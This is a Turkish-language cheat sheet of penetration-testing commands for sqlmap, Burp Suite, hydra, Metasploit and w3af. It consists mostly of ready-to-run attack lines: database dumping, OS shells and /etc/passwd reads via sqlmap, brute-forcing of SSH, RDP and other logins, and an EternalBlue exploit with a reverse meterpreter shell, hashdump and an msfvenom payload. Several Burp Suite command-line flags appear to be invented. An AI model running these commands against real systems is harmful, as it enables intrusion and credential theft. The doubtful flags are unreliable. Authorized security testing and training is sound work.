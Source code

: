 # Kali Linux Web Penetrasyon Test Araçları ve Örnek Komutlar (Devam)

## 6. sqlmap

1. `sqlmap -u "http://example.com/page.php?id=1"` - Temel SQL enjeksiyon testi
2. `sqlmap -u "http://example.com/page.php?id=1" --dbs` - Veritabanlarını listele
3. `sqlmap -u "http://example.com/page.php?id=1" -D dbname --tables` - Belirli bir veritabanındaki tabloları listele
4. `sqlmap -u "http://example.com/page.php?id=1" -D dbname -T tablename --columns` - Belirli bir tablonun sütunlarını listele
5. `sqlmap -u "http://example.com/page.php?id=1" -D dbname -T tablename -C column1,column2 --dump` - Belirli sütunları dökümle
6. `sqlmap -u "http://example.com/page.php?id=1" --data "username=test&password=test"` - POST isteği ile test
7. `sqlmap -u "http://example.com/page.php?id=1" --cookie="PHPSESSID=1234abcd"` - Cookie kullanarak test
8. `sqlmap -u "http://example.com/page.php?id=1" --level 5 --risk 3` - Daha kapsamlı test yap
9. `sqlmap -u "http://example.com/page.php?id=1" --os-shell` - İşletim sistemi shell'i elde etmeye çalış
10. `sqlmap -u "http://example.com/page.php?id=1" --file-read="/etc/passwd"` - Dosya okumaya çalış
11. `sqlmap -u "http://example.com/page.php?id=1" --file-write="local.txt" --file-dest="/tmp/remote.txt"` - Dosya yüklemeye çalış
12. `sqlmap -u "http://example.com/page.php?id=1" --technique=U` - Sadece UNION tabanlı saldırıları dene
13. `sqlmap -u "http://example.com/page.php?id=1" --random-agent` - Rastgele user agent kullan
14. `sqlmap -u "http://example.com/page.php?id=1" --proxy="http://127.0.0.1:8080"` - Proxy kullan
15. `sqlmap -u "http://example.com/page.php?id=1" --tor` - Tor ağını kullan
16. `sqlmap -u "http://example.com/page.php?id=1" --wizard` - Interaktif sihirbaz modunu kullan
17. `sqlmap -u "http://example.com/page.php?id=1" --tamper=space2comment` - Tamper scripti kullan
18. `sqlmap -u "http://example.com/page.php?id=1" --batch` - Hiç soru sormadan otomatik olarak çalış
19. `sqlmap -r request.txt` - Kaydedilmiş HTTP isteğini kullan
20. `sqlmap -u "http://example.com/page.php?id=1" --threads=10` - Çoklu thread kullanarak hızlandır

## 7. burpsuite

Not: Burp Suite genellikle GUI ile kullanılır, ancak bazı CLI komutları da vardır. İşte bunlardan bazıları:

1. `java -jar burpsuite.jar` - Burp Suite'i başlat
2. `java -jar burpsuite.jar --project-file=myproject.burp` - Belirli bir proje dosyasını aç
3. `java -jar burpsuite.jar --config-file=myconfig.json` - Özel yapılandırma dosyası kullan
4. `java -jar burpsuite.jar --disable-extensions` - Eklentileri devre dışı bırakarak başlat
5. `java -jar burpsuite.jar --unpause-spider-and-scanner` - Spider ve Scanner'ı otomatik olarak başlat
6. `java -jar burpsuite.jar --user-config-file=myuserconfig.json` - Kullanıcı yapılandırma dosyası kullan
7. `java -jar burpsuite.jar --collaborator-server` - Collaborator sunucusunu başlat
8. `java -jar burpsuite.jar --collaborator-config=mycollab.properties` - Özel Collaborator yapılandırması kullan
9. `java -jar burpsuite.jar --headless` - Arayüzsüz modda çalıştır
10. `java -jar burpsuite.jar --project-file=myproject.burp --server` - Sunucu modunda çalıştır
11. `java -Xmx2G -jar burpsuite.jar` - Daha fazla bellek tahsis ederek başlat
12. `java -jar burpsuite.jar --verbose` - Ayrıntılı loglama ile başlat
13. `java -jar burpsuite.jar --help` - Yardım menüsünü göster
14. `java -jar burpsuite.jar --diagnostics` - Tanılama bilgilerini göster
15. `java -jar burpsuite.jar --use-defaults` - Varsayılan ayarları kullanarak başlat
16. `java -jar burpsuite.jar --config-file=myconfig.json --project-file=myproject.burp` - Özel yapılandırma ve proje dosyası kullan
17. `java -jar burpsuite.jar --temporary-project` - Geçici proje oluşturarak başlat
18. `java -jar burpsuite.jar --disable-auto-update` - Otomatik güncellemeleri devre dışı bırak
19. `java -jar burpsuite.jar --collaborator-server --collaborator-config=mycollab.properties` - Özel yapılandırma ile Collaborator sunucusu başlat
20. `java -Djava.awt.headless=true -jar burpsuite.jar` - Grafiksel arayüz olmadan çalıştır

## 8. hydra

1. `hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.1.1 http-post-form "/login.php:username=^USER^&password=^PASS^:Login failed"` - HTTP POST form brute force
2. `hydra -L users.txt -P passwords.txt ftp://192.168.1.1` - FTP brute force
3. `hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.1` - SSH brute force
4. `hydra -L users.txt -P passwords.txt 192.168.1.1 mysql` - MySQL brute force
5. `hydra -l admin -P passwords.txt 192.168.1.1 smb` - SMB brute force
6. `hydra -L users.txt -P passwords.txt 192.168.1.1 telnet` - Telnet brute force
7. `hydra -l admin -P passwords.txt 192.168.1.1 https-form-post "/login:username=^USER^&password=^PASS^:F=Login failed"` - HTTPS form POST brute force
8. `hydra -l admin -P passwords.txt rdp://192.168.1.1` - RDP brute force
9. `hydra -L users.txt -P passwords.txt 192.168.1.1 pop3` - POP3 brute force
10. `hydra -l root -P passwords.txt 192.168.1.1 ssh -t 4` - 4 thread ile SSH brute force
11. `hydra -C default_accounts.txt 192.168.1.1 ftp` - FTP için varsayılan hesapları dene
12. `hydra -l admin -P passwords.txt 192.168.1.1 smtp` - SMTP brute force
13. `hydra -l root -P passwords.txt 192.168.1.1 ssh -s 2222` - Özel port üzerinden SSH brute force
14. `hydra -L users.txt -P passwords.txt 192.168.1.1 imap` - IMAP brute force
15. `hydra -l admin -P passwords.txt 192.168.1.1 vnc` - VNC brute force
16. `hydra -L users.txt -P passwords.txt 192.168.1.1 ldap2` - LDAP brute force
17. `hydra -l admin -P passwords.txt 192.168.1.1 http-proxy` - HTTP proxy brute force
18. `hydra -l root -P passwords.txt 192.168.1.1 ssh -e nsr` - SSH için ek şifre kombinasyonları dene
19. `hydra -L users.txt -P passwords.txt 192.168.1.1 socks5` - SOCKS5 proxy brute force
20. `hydra -l admin -P passwords.txt 192.168.1.1 http-get /admin` - HTTP GET brute force

## 9. metasploit

1. `msfconsole` - Metasploit Framework'ü başlat
2. `msfdb init` - Metasploit veritabanını başlat
3. `msfconsole -q` - Sessiz modda başlat
4. `use exploit/windows/smb/ms17_010_eternalblue` - Belirli bir exploit'i kullan
5. `show options` - Mevcut modülün seçeneklerini göster
6. `set RHOSTS 192.168.1.1` - Hedef IP adresini ayarla
7. `set PAYLOAD windows/meterpreter/reverse_tcp` - Payload'ı ayarla
8. `set LHOST 192.168.1.100` - Yerel IP adresini ayarla
9. `exploit` - Exploit'i çalıştır
10. `search ms17-010` - Belirli bir açık için modül ara
11. `info` - Mevcut modül hakkında bilgi göster
12. `back` - Önceki menüye dön
13. `sessions` - Aktif oturumları listele
14. `sessions -i 1` - Belirli bir oturuma geç
15. `run post/windows/gather/hashdump` - Windows hash'lerini topla
16. `run post/linux/gather/hashdump` - Linux hash'lerini topla
17. `db_nmap -sV 192.168.1.1` - Nmap taraması yapıp sonuçları veritabanına kaydet
18. `workspace -a myproject` - Yeni bir çalışma alanı oluştur
19. `load sqlmap` - SQLMap eklentisini yükle
20. `msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe > payload.exe` - Özel payload oluştur

## 10. w3af

1. `w3af_console` - w3af'ı konsol modunda başlat
2. `w3af>>> plugins` - Eklenti menüsüne gir
3. `w3af/plugins>>> list audit` - Denetim eklentilerini listele
4. `w3af/plugins>>> list crawl` - Crawl eklentilerini listele
5. `w3af/plugins>>> enable all` - Tüm eklentileri etkinleştir
6. `w3af/plugins>>> back` - Ana menüye dön
7. `w3af>>> target` - Hedef ayarları menüsüne gir
8. `w3af/config:target>>> set target http://example.com/` - Hedef URL'yi ayarla
9. `w3af/config:target>>> back` - Ana menüye dön
10. `w3af>>> start` - Taramayı başlat
11. `w3af>>> kb` - Bilgi tabanını göster
12. `w3af>>> exploit` - Exploit menüsüne gir
13. `w3af/exploit>>> list` - Kullanılabilir exploit'leri listele
14. `w3af/exploit>>> exploit os_commanding` - Belirli bir exploit'i çalıştır
15. `w3af>>> profiles` - Profil menüsüne gir
16. `w3af/profiles>>> use fast_scan` - Hızlı tarama profilini kullan
17. `w3af>>> set http-settings timeout 30` - HTTP zaman aşımı süresini ayarla
18. `w3af>>> save_config my_config.pw3af` - Mevcut yapılandırmayı kaydet
19. `w3af>>> load_config my_config.pw3af` - Kaydedilmiş yapılandırmayı yükle
20. `w3af>>> exit` - w3af'tan çık

Bu komutlar, bu beş güçlü penetrasyon test aracının temel kullanımını kapsar. Her aracın daha fazla özelliği ve parametresi olduğunu unutmayın. İhtiyacınıza göre man sayfalarını veya resmi dokümantasyonları inceleyerek daha fazla bilgi edinebilirsiniz.